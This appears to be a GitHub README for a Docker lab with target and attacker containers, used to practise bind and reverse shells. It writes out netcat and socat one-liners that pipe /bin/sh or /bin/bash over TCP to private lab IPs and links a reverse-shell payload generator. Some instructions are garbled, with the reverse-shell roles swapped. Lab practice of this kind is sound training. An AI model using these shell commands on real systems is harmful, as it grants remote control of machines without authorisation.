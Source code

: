 
Setup containers using Alpine Linux as target and attacker for red-team exercises.

* The target has an IP address of  `172.24.0.2`.
* The attacker has an IP address of `172.24.0.3`.
* The target and attack have ports 5009 expoed for `tcp` and `udp`.
* Port `5010` is exposed on the target and port `5011` is exposed on attacker to the host. 

The static IP address for the containers can be removed for `nmap` practice.  Install aother tools as needed in the `Dockerfile` for each image.

## Usage

Build and run the containers.  They will stay running in the shell you're using.
```sh
docker-compose up
```

Open a new terminal and setup on `target` container:
```sh
docker exec -it target /bin/bash
```

Open a new terminal and setup on `attacker` container:
```sh
docker exec -it target /bin/bash
```

### Bind Shells
Have the attacker connect to the target.


#### Netcat
Everybody's go-to.  Instructions below are for the neutered `netcat-openbsd` version.

[Manual](http://manned.org/nc.openbsd/5f0a5cf9)

Setup listener `target`:
```sh
mkfifo f
nc -l -p 5009 0<f | /bin/bash > f 2>&1
```

On `attacker` container, connect to `target`:
```sh
nc 172.24.0.2 5009 -vvv
```


#### Socat
Socat is a better option since you can use history and encryption with `tty`.  Target machine is likely going to have netcat installed, but once a shell session is establed, you can install other tools.


Find the `target` ip address and setup listener:
```sh
socat TCP-LISTEN:5009,reuseaddr,fork EXEC:/bin/sh,pty,stderr,setsid,sigint,sane
```


On `attacker` container interactive bash, connect to the `target`:
```sh
socat FILE:`tty`,raw,echo=0 TCP4:172.24.0.2:5009
```

Stop connection with `exit` on `attacker`.



### Reverse Shells
Have the target connect to the attacker.  Circumvents inbound firewall rules.

#### Netcat

On the `attacker` setup listener:
```sh
rm -f f 2> /dev/null
mkfifo f
cat f | /bin/sh -i 2>&1 | nc 172.24.0.3 5009 > f

OR

nc 172.24.0.3 5009 0<f | /bin/sh -i 2>&1 | tee f
```


On `target` container interactive bash, connect to the attacker:
```sh
nc -lvnp 5009 -vvv
```


#### Socat

Setup listener on the `attacker`:
```sh
socat -d -d file:`tty`,raw,echo=0 TCP-LISTEN:5009
```


On `target` container interactive bash, connect to the attacker.:
```sh
socat TCP:172.24.0.3:5009 EXEC:'/bin/bash',pty,stderr,setsid,sigint,sane
```

Stop connection with `exit` on `attacker`.



## Cleanup

On the docker-compose terminal press `ctrl+c` to stop the running containers.  
```sh
docker-compose down
```


## Debugging


### Docker Compose
```sh
docker-compose --verbose up
```

Show running container IP addresse from host:
```sh
docker inspect -f '{{range.NetworkSettings.Networks}}{{.IPAddress}}{{end}}' <container_name>
```

Show IP address from running container:
```sh
hostname -i
```

List running procees:
```sh
ps
```

Kill specified process ID.  You may need to do this for already running listeners.
```sh
kip <pid>
```

If you get `connection refused`, make sure your listener is running.


## Disclaimer

This is for educational purposes.  Do not attack unauthorized systems. 


## Tools
* [Generate reverse shell payloads](https://www.revshells.com/)
